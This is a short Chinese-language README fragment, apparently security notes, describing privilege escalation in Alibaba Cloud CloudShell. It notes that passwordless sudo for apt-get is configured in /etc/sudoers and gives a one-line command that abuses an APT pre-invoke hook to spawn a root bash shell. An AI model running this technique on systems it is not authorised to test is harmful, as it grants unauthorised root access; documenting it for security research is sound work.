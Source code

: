 ## CloudShell



阿里云CloudShell：

从`/etc/sudoers`中读取：

![image-20231116110834078](README.assets/image-20231116110834078.png)

apt-get执行sudo不需要输入密码，因此利用apt-get可以提权到root：

```bash
sudo apt-get update -o APT::update::pre-invoke::=/bin/bash
```

